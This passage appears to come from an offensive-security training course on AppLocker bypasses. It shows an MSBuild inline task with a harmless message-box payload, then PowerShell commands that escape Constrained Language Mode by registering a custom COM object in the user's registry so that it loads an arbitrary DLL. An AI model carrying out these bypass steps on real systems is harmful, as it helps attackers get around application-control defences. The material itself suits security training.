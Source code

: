 ```xml
		public class MSBuild : Task
		{
			public override bool Execute()
			{
				MessageBox.Show("Hello World", "AppLocker Bypass");
				return true;
			}
		}
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/71f8ad3a9acfb4041e9a30ce45c997e9.png" alt="" width="100%"><figcaption></figcaption></figure>

### PowerShell CLM <a href="#el_1743171703547_343" id="el_1743171703547_343"></a>

AppLocker will also change PowerShell's language mode from _FullLanguage_ to _ConstrainedLanguage_.  This is designed to restrict access to language features that can invoke arbitrary Windows APIs, including a bunch of .NET APIs.

```batch
PS C:\Users\pchilds> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS C:\Users\pchilds> [System.Console]::WriteLine("Hello World")
Cannot invoke method. Method invocation is supported only on core types in this language mode.
```

These restrictions are not water-tight however.  For instance, we can still use the [New-Object](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-5.1) cmdlet to load COM objects such as [WScript.Shell](https://ss64.com/vb/shell.html).

```batch
PS C:\Users\pchilds> New-Object -ComObject WScript.Shell

SpecialFolders     CurrentDirectory
--------------     ----------------
System.__ComObject C:\Users\pchilds
```

This can be abused by creating a custom COM object that will load an arbitrary DLL into the PowerShell process.  This is a similar process to when we added registry entries for [COM hijacking](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=677d4c2e7f9cb5050301a3be).

```batch
PS C:\Users\pchilds> [System.Guid]::NewGuid()

Guid
----
6136e053-47cb-4fdd-84b1-381bc5f3edb3

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\CLSID' -Name '{6136e053-47cb-4fdd-84b1-381bc5f3edb3}'
C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\CLSID\{6136e053-47cb-4fdd-84b1-381bc5f3edb3}' -Name 'InprocServer32' -Value 'C:\Users\pchilds\Desktop\bypass.dll'
C:\Users\pchilds> New-ItemProperty -Path 'HKCU:Software\Classes\CLSID\{6136e053-47cb-4fdd-84b1-381bc5f3edb3}\InprocServer32' -Name 'ThreadingModel' -Value 'Both'

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass'
C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value '{6136e053-47cb-4fdd-84b1-381bc5f3edb3}'
```